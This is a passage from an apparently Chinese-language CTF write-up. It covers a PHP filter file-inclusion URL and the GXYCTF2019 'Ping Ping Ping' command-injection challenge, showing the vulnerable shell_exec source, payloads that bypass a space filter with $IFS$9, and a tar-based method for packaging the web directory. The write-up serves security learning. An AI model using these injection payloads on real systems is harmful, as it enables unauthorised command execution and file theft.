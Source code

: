 文件包含

```
http://6c8f24ad-3e52-41fe-b1bb-3e938ff9eb12.node4.buuoj.cn:81/secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## [GXYCTF2019]Ping Ping Ping(RCE读文件，绕过多解法)

![](assets/202208211612946-1700743077637187.png)

过滤的比较多, 懒得写了...

试了一个 payload 读 index.php

```bash
127.0.0.1;cat$IFS$9index.php
```

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}

?>
```

### 解法一：tar命令压缩打包当前目录，下载查看

刚好前几天用了下 tar... 然后空格可以用 `$IFS$9` 绕过, 并且 `.` 没有被过滤

```bash
127.0.0.1;tar$IFS$9-cf$IFS$9a.tar$IFS$9.
tar -cf a.tar .
这条命令 tar -cf a.tar . 的含义是创建一个名为 a.tar 的压缩包，其中包含当前目录（.表示当前目录）下的所有文件和子目录。
解释每个部分的含义：
    tar: 是 tar 命令的基本命令。
    -c: 表示创建一个新的压缩包。
    -f a.tar: 指定创建的压缩包的文件名为 a.tar。
    .: 表示当前目录。这是指定要打包的文件和目录的位置。

因此，这个命令的效果是将当前目录下的所有文件和子目录打包成一个名为 a.tar 的压缩包。需要注意，这只是一个打包操作，并没有进行压缩。如果要进行压缩，可以在命令中添加相应的选项，比如使用 gzip 进行压缩的话，可以使用 tar -czf a.tar.gz .。
```
